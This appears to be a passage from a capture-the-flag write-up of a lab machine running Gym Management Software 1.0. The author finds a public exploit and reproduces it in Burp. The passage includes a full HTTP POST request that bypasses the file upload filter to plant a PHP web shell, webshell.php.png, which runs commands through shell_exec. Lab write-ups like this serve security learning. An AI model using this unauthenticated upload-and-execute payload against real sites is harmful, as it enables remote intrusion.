 * packages.php

* about.php

* edit.php

* /license

* up.php

* att.php

## Steps (User)

I started by browsing to the site hosted on port 8080 and was presented with web page titled "mrb3n's Bro Hut" that sells fitness packages.

![2021-08-31_16-52.png](/home/sixstringacks/share/git/tmp_assets/5d3332bfdb0befac38797df173c45dadb5f15043.png)

After reviewing the Gobuster results and poking around the websiet I did not find anything interesting. I was grasping at straws but I noticed the contact form showed that the site was using Gym Management Software 1.0, so I decided to look it up in exploit-db and found an exploit for it. 

![2021-08-31_17-01.png](/home/sixstringacks/share/git/tmp_assets/2e3b716da89701eaaee9a8c09637620f21cffa9d.png)

I reviewed the [exploit](https://www.exploit-db.com/exploits/48506) to figure out what it was doing; basically the site allows for files to be uploaded anonymously and for its file upload filtering to be bypassed. I decided to use burp instead so I created a post request and uploaded my own web shell (using my own, easier to type, parameter names). 

```
POST /upload.php?id=shell HTTP/1.1
Host: 10.10.10.198:8080
User-Agent: python-requets/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: sec_session_id=imvsd39u14p4kmuk5dm61dkhkg
Content-Length: 320
Content-Type: multipart/form-data; boundary=ab675be8aa6636037d9e756e7fbfd4ea


--ab675be8aa6636037d9e756e7fbfd4ea
Content-Disposition: form-data; name="pupload"

upload
--ab675be8aa6636037d9e756e7fbfd4ea
Content-Disposition: form-data; name="file"; filename="webshell.php.png"
Content-Type: image/png

PNG

<?php echo shell_exec($_GET["cmd"]); ?>
--ab675be8aa6636037d9e756e7fbfd4ea--
```
